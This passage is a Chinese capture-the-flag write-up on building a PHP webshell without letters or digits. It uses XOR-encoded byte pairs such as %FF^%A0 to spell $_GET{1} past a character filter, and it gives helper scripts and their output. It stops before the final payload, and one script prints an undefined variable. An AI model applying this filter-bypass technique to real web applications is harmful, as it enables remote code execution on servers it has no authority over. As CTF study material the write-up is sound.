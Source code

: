 一看就知道是无字母数字webshell，我们可以用取反、异或、自增、或、与进行构造

但是这里过滤了 ~ | &  ，所以只有自增和异或了，但是自增会导致过长，所以采取**异或**

我们先写一个脚本来看看可以使用哪些字符：

```php
# 获取可以使用哪些字符

for($i=0;$i<256;$i++) {
    $c = chr($i);
    if(!preg_match('/[\x00- 0-9A-Za-z\'"`~_&.,|=[\x7F]+/i',$c)) {
            echo $c.":  ".urlencode($i)."  +  ".urlencode($j).PHP_EOL;
        }
}

输出：
   !#$%()*+-/:;<>?@\]^{}
```

可见，我们可以使用 `$ { } ; ^` 并且根据字符数限制，我们可以联想到使用GET传参的方式：`$_GET[1]`

但是这里中括号 `[`被过滤了，我们可以使用 `{}` 代替：`$_GET{1} = $_GET[1]`

但是这些字符都使用不了怎么办？

我们需要使用 `^` 进行异或构造：

```php
$arr = ['_','G','E','T'];
$s = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_";
for($i=0;$i<256;$i++) {
    for($j=0;$j<256;$j++) {
        $c=chr($i^$j);
        if(in_array($c,$arr)&&strpos($s,chr($i))==false&&strpos($s,chr($j))==false) {
            echo $c." : ".urlencode(chr($i))."  +  ".urlencode(chr($j)).PHP_EOL;
        }
    }
}
```

输出有很多，但是由于这里有字符种类的限制，所以我们尽量使用有一个异或值是一样的：

```
_ : %FE  +  %A1
T : %FE  +  %AA
G : %FE  +  %B9
E : %FE  +  %BB
_ : %FF  +  %A0
T : %FF  +  %AB
G : %FF  +  %B8
E : %FF  +  %BA
```

（这里需要知道，**url编码后为`%FF`的值与其他值进行异或的话，其实是将该值取反**，因为其二进制值为全1）

于是我们可以将这些值拼接起来，调用`get_the_flag`函数：
